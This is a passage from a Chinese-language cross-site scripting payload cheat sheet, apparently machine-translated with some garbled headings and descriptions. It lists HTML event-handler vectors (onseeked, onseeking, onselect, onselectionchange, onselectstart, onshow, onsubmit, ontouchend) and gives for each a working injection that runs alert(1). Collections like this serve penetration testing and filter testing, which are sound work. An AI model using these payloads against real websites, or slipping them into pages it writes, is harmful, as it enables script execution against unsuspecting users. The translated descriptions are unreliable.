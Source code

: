 需要单击元素时间线

```
<audio autoplay controls onseeked=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **开始**

需要单击元素时间线

```
<audio autoplay controls onseeking=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **on 选择**

要求您选择文本

```
<input onselect=alert(1) value="XSS" autofocus>
```

#### **onselectionchange**

当页面上的文本选择被更改时激发

```
<body onselectionchange=alert(1)>select some text
```

#### **onselectstart**

开始文本选择时激发

```
<body onselectstart=alert(1)>select some text
```

#### **onshow**

显示火灾上下文菜单

```
<div contextmenu=xss><p>Right click<menu type=context id=xss onshow=alert(1)></menu></div>
```

#### **onsubmit**

需要提交表单

```
<form onsubmit=alert(1)><input type=submit>
```

#### **ontouchend**

当触摸屏，仅移动设备

```
<body ontouchend=alert(1)>
```

